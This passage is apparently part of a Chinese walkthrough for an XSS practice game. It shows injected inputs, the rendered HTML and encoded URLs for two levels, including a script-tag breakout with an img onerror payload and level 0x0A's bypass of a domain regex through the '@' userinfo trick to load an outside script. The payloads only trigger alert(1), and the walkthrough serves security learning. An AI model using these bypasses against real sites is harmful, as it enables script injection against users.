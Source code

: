 - 插入代码

```html
https://www.segmentfault.com"></script> <img src=# onerror="alert(1) 
```

- 网页代码

```html
<script src="https://www.segmentfault.com"></script> <img src=# onerror="alert(1) "></script>
```

- URL

```url
http://xss.test/?input=https%3A%2F%2Fwww.segmentfault.com%22%3E%3C%2Fscript%3E%20%3Cimg%20src%3D%23%20onerror%3D%22alert(1)%20
```

## 0x0A

- server 源码

将 & ' " < > / 符号转为实体编码，在URL中会解析@后面的网址，如果没弹出来试试换个浏览器，低版本火狐可以弹出

```php
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```

- 插入代码

```html
[<script>alert(1)</script>](https://www.segmentfault.com@xss.haozi.me/j.js)
```

- 网页代码

```html
<script src="https:&#x2f&#x2fwww.segmentfault.com@xss.haozi.me&#x2fj.js"></script>
```

- URL

```url
http://xss.test/?input=https%3A%2F%2Fwww.segmentfault.com%40xss.haozi.me%2Fj.js
```
